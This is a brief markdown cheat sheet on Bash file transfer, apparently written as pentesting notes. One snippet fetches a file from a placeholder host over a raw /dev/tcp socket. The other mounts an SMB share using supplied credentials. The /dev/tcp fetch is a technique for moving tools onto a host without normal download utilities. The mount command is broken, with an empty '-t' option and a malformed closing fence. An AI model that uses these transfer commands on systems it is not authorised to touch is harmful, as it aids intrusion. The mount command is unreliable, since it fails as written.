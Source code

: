 # Bash - File transfert

## Bash - download
```
# connect to desired webserver
exec 3<>/dev/tcp/<IP>/<PORT>
# HTTP get request
echo -e "GET /<File> HTTP/1.1\n\n">&3
# print response
cat <&3
```

## Bash - Mount smb share with cifs
```
sudo mount -t  -o 'username=<USERNAME>,password=<PASSWD>' //<IP>/<SHARENAME> /<LOCAL MOUNT POINT>
`
